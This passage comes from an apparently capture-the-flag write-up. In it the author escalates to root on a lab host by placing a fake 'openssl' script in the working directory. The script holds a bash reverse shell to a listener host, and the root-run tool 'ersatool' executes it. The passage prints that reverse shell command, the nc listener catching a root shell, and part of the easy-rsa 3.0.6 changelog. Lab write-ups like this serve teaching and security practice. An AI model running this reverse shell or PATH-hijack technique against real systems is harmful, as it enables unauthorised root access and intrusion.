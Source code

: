 #### Exploit

With a shell on pki, I’ll create a simple reverse shell script and save it as `openssl`:

```

www-data@pki:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1' > openssl
www-data@pki:/tmp$ chmod +x openssl

```

With `nc` listening on web, I’ll run `ersatool`, and when I try to `create` with any `CN`, it hangs:

```

www-data@pki:/tmp$ ersatool 
# create
create->CN=0xdf

```

That’s because at this point it’s trying to call `openssl`, and it got my version instead of the real one. At `nc` on web, there’s a root shell:

```

www-data@web:~$ /tmp/nc -lnvp 4433
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.254.3.
Ncat: Connection from 192.168.254.3:45310.
root@pki:/opt/easyrsa# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

#### Code

The version of easy-rsa on Static is 3.0.6, which is a couple years old:

```

root@pki:/opt/easyrsa# head ChangeLog
Easy-RSA 3 ChangeLog
3.0.6 (2019-02-01)
   * Certificates that are revoked now move to a revoked subdirectory (#63)
   * EasyRSA no longer clobbers non-EASYRSA environment variables (#277)
   * More sane string checking, allowingn for commas in CN (#267)
   * Support for reasonCode in CRL (#280)
   * Better handling for capturing passphrases (#230, others)
   * Improved LibreSSL/MacOS support
   * Adds support to renew certificates up to 30 days before expiration (#286)

```
